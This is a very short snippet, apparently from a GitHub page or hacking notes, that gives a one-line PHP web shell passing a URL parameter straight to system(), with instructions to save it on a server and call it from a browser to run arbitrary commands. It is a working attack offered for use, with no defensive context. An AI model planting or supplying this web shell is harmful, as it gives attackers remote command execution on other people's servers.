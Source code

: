 ```
<?php
	echo system($_GET["cmd"]);
?>
```

PHP payload script to save on the server.

Then in an Internet browser:
`http://<domain>/<webshell.php>?cmd=<command>`.